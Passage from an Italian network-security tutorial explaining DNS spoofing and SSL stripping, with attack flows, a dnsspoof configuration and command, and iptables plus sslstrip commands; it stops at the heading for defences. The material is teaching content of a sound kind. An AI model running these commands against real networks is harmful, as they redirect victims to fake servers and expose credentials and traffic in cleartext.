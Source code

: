 ### 16.2.2 - DNS Spoofing

**Attack flow:**
```
1. Vittima richiede: www.bank.com
2. Attaccante intercetta richiesta DNS
3. Attaccante risponde: www.bank.com = 1.2.3.4 (server attaccante)
4. Vittima connette a server fasullo
5. Attaccante fa phishing credenziali
```

**dnsspoof esempio:**
```bash
# dnsspoof.conf
www.bank.com  1.2.3.4  # IP attaccante

# Esegue DNS spoofing
dnsspoof -i wlan0 -f dnsspoof.conf
```

### 16.2.3 - SSL Stripping

**Attacco downgrade HTTPS → HTTP:**

```
Vittima richiede: http://bank.com

1. Server risponde: 301 Redirect → https://bank.com
   
2. Attaccante INTERCETTA redirect
   Modifica risposta in: 200 OK (fake HTTP page)
   
3. Vittima rimane su HTTP (non HTTPS)
   
4. Attaccante vede tutto in chiaro
   Comunica con vero server in HTTPS per mascherare attacco
```

**sslstrip tool:**
```bash
# 1. Redirect traffico
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port 8080

# 2. Run sslstrip
sslstrip -l 8080

# 3. Vittima vede http:// invece di https://
# Attaccante intercetta tutto!
```

---

## 16.3 Difese
